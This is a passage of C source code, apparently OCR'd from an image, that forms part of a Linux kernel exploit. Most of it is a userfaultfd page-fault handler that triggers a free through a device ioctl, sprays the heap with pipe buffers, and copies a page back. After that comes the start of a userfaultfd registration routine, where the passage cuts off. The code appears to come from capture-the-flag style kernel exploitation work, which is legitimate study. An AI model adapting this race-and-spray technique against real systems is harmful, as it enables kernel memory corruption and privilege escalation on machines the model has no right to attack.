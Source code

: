 ```c
        /* Read an event from the userfaultfd. */
        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
        {
            printf("[-] read");
            exit(-1);
        }
        if (nread == -1)
        {
            printf("[-] read");
            exit(-1);
        }
        if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            printf("Unexpected event on userfaultfd\n");
            exit(-1);
        }
        printf("    UFFD_EVENT_PAGEFAULT event: \n");
        printf("flags = %" PRIx64 "; \n", msg.arg.pagefault.flags);
        printf("address = %" PRIx64 "\n", msg.arg.pagefault.address);

        // heap spray
        // 先 free 再申请
        for (int i = 0; i < 32; i++)
        {
            c2[i] = 'a';
        }
        for (int i = 0; i < 16; i++)
        {
            c2[32 + i] = 0;
        }
        c2[32] = 1;
        ioctl(fd, 65521, c2); // 奇怪 到了这里没有输出

        for (int i = 0; i < 50; i++)
        {
            pipe(pipe_fd[i]);
            write(pipe_fd[i][1], "aaaatest", 8);
        }

        uc.src = (unsigned long)pipe_buf;
        uc.dst = msg.arg.pagefault.address & ~(getpagesize() - 1);
        uc.len = 4096;
        uc.mode = 0;
        uc.copy = 0;
        ioctl(uffd, UFFDIO_COPY, &uc);
        break;
    }
}
void *page;
void registerUserfault(void *fault_page, void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    unsigned long long uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); // Enable the close-on-exec flag for the new userfaultfd file descriptor; 非阻塞才能让双线程有效
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
    {
        printf("[-] ioctl-UFFDIO_API");
```